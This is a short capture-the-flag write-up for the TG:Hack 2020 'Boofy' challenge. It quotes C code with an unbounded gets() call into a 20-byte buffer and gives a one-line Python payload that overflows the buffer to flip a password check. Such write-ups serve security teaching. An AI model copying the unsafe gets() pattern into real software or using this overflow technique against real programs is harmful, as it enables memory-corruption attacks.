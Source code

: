 # TG:Hack2020
> 20200411-20200412

## Boofy
### Description

> Author: [**Ingeborg Ytrehus - ingeborg_y#6548**](https://tghack.no/authors#16)
>
> This program looks like it's password protected, but we can't seem to find the correct password.
>
> ```
> nc boofy.tghack.no 6003
> ```
>
> or use a mirror closer to you:
>
> - `nc us.boofy.tghack.no 6003` (US)
> - `nc asia.boofy.tghack.no 6003` (Japan)
>
> files:
>
> - [download binary](https://storage.googleapis.com/tghack-public/2020/f93e424b7f8ce060b0c00dc135269128/boofy)
> - [download source](https://storage.googleapis.com/tghack-public/2020/f93e424b7f8ce060b0c00dc135269128/boofy.c)

### Analysis

It's a really easy task. The codes `gets(password)` will overflow the buffer and we can get flag by overwrite `correct` to `\x01`.

```c
void try_password(){
	char password[20] = { 0 };
	int correct = 0;	
	printf("Please enter the password?\n");
	gets(password);
	if (correct == 1) {
		get_flag();
	} else {
		printf("Sorry, but that's not the right password...\n");
	}
}
```

### Solution

```python
offset = 21
payload = '\x01'*offset
sl(payload)
```
